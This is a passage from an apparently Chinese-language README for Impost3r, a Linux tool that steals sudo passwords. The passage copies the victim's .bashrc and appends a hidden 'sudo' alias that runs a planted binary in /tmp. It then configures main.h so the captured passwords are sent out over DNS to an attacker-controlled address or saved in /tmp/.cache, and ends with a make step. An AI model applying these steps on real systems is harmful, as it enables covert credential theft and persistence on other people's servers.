 ```
if [ -n "$BASH_VERSION" ]; then
    # include .bashrc if it exists
    if [ -f "$HOME/.bashrc" ]; then
	. "$HOME/.bashrc"
    fi
fi
```

- 拷贝一份用户的```.bashrc```:```cp ～/.bashrc /tmp/```，并将这份副本放在攻击者自定义的路径下(本例中放置在/tmp/目录下，攻击者可以修改)

- 修改用户根目录下的```.bashrc```(～/.bashrc)，在最后一行添加如下语句(其中“/tmp/.impost3r”需要与下面的FILENAME保持一致)：

```
alias sudo='impost3r() {
if [ -f "/tmp/.impost3r" ]; then
/tmp/.impost3r "$@" && unalias sudo
else
unalias sudo;sudo "$@"
fi
}; impost3r'
```

- 添加完成后，保存文件并执行```source ~/.bashrc```

- 接着攻击者需要对Impost3r源代码```/sudo/main.h```进行修改：

```
/*
    Custom setting
*/
# define FILENAME "/tmp/.impost3r" \\设置Impost3r在目标服务器上的位置
# define BACKUP_ORI_FILENAME ".bashrc" \\表明攻击者所备份的源用户配置文件是.bashrc还是.bash_profile、.profile、.bash_login
# define BACKUP_ORI_PATH "/tmp/.bashrc" \\表明攻击者所备份的源用户配置文件在目标服务器上的位置
# define SAVE_OR_SEND 0 \\设置在窃取成功后是将结果保存在目标机器上或者是发送至攻击者控制的机器(发送=0，保存=1，默认为发送)

/*
    Send to server
*/
# define YOUR_DOMAIN ".com" \\注意，如果你不想购买一个域名来接收Impost3r回传的消息且被植入Impost3r的目标服务器并未禁止向你所控制的dns服务器的53端口的直接udp连接，那么这里的域名请使用默认值;
\\但是如果被植入Impost3r的目标服务器严格限制了dns请求的出站，那么请将YOUR_DOMAIN的值改为你所购买的域名，例如“.example.com”，并将这个域名的NS记录配置成你所控制的DNS服务器地址，在此DNS服务器上运行Fdns,并将下方REMOTE_ADDRESS的值更改为被植入Impost3r的目标服务器的默认dns地址,REMOTE_PORT更改为被植入Impost3r的目标服务器的默认dns地址所监听的dns服务端口(绝大多数情况下都是53端口)
# define MAX_RESEND 30 \\设置当窃取到密码之后，Impost3r向攻击者服务器发送用户密码的最大重试次数
# define RESEND_INTERVAL 5 \\设置每一次发送密码的间隔
# define REMOTE_ADDRESS "192.168.0.12" \\设置回送密码的远程地址
# define REMOTE_PORT 53 \\设置回送密码的远程端口

/*
    Save to local
*/
# define SAVE_LOCATION "/tmp/.cache" \\设置结果文件保存的位置，在SAVE_OR_SEND设置为1的情况下
```
- 修改完成后，保存并在当前目录执行```make```
